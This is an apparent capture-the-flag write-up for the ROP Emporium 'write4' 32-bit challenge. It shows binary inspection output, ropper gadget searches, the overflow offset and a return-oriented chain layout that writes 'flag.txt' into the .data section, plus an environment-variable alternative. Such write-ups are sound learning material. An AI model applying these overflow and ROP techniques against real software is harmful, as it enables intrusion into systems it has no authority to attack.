

# write4

This time around, we have a binary that has a function imported from a shared libraries that we can use to print the flag. But this time we don't have any string we can. Well, technically if we call `system` we can still get a shell that can likely read the flag since `system` by default calls `/bin/sh`. What we need to do this time around is to find a good place and a gadget to insert our one string to use with system.

## First moves

We start by inspecting the binary.

`file`

```bash
└─$ file write432
write432: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7142f5deace762a46e5cc43b6ca7e8818c9abe69, not stripped
```

`checksec`

```bash
└─$ checksec --file=write432
[*] '/home/kali/my_challenges/pwn/ropemporium/03-write4/32bit/write432'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```

Business as usual here.
We need to check the ELF sections to see what is writable and how much data could be written there. We can use the `readelf` for this.

```bash
└─$ readelf -S write432
There are 30 section headers, starting at offset 0x17a4:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.bu[...] NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00003c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481e8 0001e8 0000b0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          08048298 000298 00008b 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048324 000324 000016 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804833c 00033c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804835c 00035c 000008 08   A  5   0  4
  [10] .rel.plt          REL             08048364 000364 000018 08  AI  5  23  4
  [11] .init             PROGBITS        0804837c 00037c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483a0 0003a0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483e0 0003e0 000008 08  AX  0   0  8
  [14] .text             PROGBITS        080483f0 0003f0 0001c2 00  AX  0   0 16
  [15] .fini             PROGBITS        080485b4 0005b4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485c8 0005c8 000014 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080485dc 0005dc 000044 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048620 000620 000114 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000211 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 00169d 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), p (processor specific)
```

This one below is interesting

```bash
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
```

Because it is writable and it has 8 bytes of space which is perfect for the text `flag.txt`.

## Lay of the land

We know where we can insert some text into the binary. We still need to find a gadget to take that value and put it on that address (`0804a018`) and we need to find the address to the imported print function to move the program execution there.

From GDB:

```bash
0x080483d0  print_file@plt
```

From ropper:

```bash
└─$ ropper --file write432 --search "mov"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: write432
0x080484e7: mov al, byte ptr [0xc9010804]; ret;
0x0804846d: mov al, byte ptr [0xd0ff0804]; add esp, 0x10; leave; ret;
0x080484ba: mov al, byte ptr [0xd2ff0804]; add esp, 0x10; leave; ret;
0x080484e4: mov byte ptr [0x804a020], 1; leave; ret;
0x08048543: mov dword ptr [edi], ebp; ret;
0x080484b2: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a020; call edx;
0x08048466: mov ebp, esp; sub esp, 0x14; push 0x804a020; call eax;
0x080484da: mov ebp, esp; sub esp, 8; call 0x450; mov byte ptr [0x804a020], 1; leave; ret;
0x08048381: mov ebx, 0x81000000; ret;
0x08048423: mov ebx, dword ptr [esp]; ret;
0x0804847a: mov esp, 0x27; add bl, dh; ret;
```

This entry is interesting to us `0x08048543: mov dword ptr [edi], ebp; ret;`
It moves 4 bytes from `ebp` to the address location that is stored in `edi`.

In order to use this, we will need to pop the address of the data section to `edi` and pop the "flag.txt" string to the `ebp` register. So let's look for more gadgets.

```bash
└─$ ropper --file write432 --search "pop"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: write432
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;
0x080485ab: pop ebp; ret;
0x080485a8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804839d: pop ebx; ret;
0x08048524: pop ecx; pop ebp; lea esp, [ecx - 4]; ret;
0x080485aa: pop edi; pop ebp; ret;
0x080485a9: pop esi; pop edi; pop ebp; ret;
0x08048527: popal; cld; ret;
```

`0x080485aa: pop edi; pop ebp; ret;` is exactly what we need. We will have to line up the data like this `pop_gadget -> data_address -> "flag.txt" -> mov_gadget`. It will then pop these in order and place them in the right registers. The move gadget at the end will write the text in the memory address in the data section.

Let's recap what we found so far:

```bash
0x080483d0  print_file@plt

0x08048543: mov dword ptr [edi], ebp; ret;

0x080485aa: pop edi; pop ebp; ret;

0804a018: .data

```

We're pretty much ready, we just need the offset to the return address from the start of the buffer. We can use a cyclic pattern for this.

```bash
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

## Attack plan

1. Overflow the buffer
2. Have "flag.txt" stored in .data using gadgets
3. return to system with pointer to flag text.

## Exploit

We will skip the manual payload this time, it's getting too much.

The string we're trying to write is 8 bytes long so we will need to write it to data_address and data_address+4. We need to move 4 bytes ahead to not overwrite the 4 bytes written already.

Payload layout will look like:

```bash
padding
+ pop_gadget_address \
+ data_address \
+ "flag" \
+ mov_gadget_address \
+ pop_gadget_address \
+ data_address + 0x4 \
+ ".txt"
+ mov_gadget_address \
+ print_file_address \
+ Junk for ebp or exit_address to not crash \
+ data_address (at this point it is a pointer to "flag.txt")

```

### Pwntools

Check out `exploit.py` for the involved method and `exploit_rop.py` for an auto exploit.

## Alternative solution

If ASLR is off, we can also inject the string we need as an environment variable.

Enironment variables are injected into the process stack and they usually reside at the bottom part of the stack (high addresses).



You can use this [gist](https://gist.github.com/Sam97ish/cb84fa17a43ce80dcd4ca7b3dc5989d4) to find the address of an environment variable for a given binary or use GDB with command like `x/200s $esp` to show the bottom parts of the stack (you might need to increase the number depending on how much did the stack grow at that point).

The address depends on the binary name probably because the name is also stored somewhere in that region as well.

If ASLR is on, then you can know the offset but not the middle part of the address as that will be random.
You will need to find the base of the binary by leaking it first in that case. Check out `exploit_env.py`.
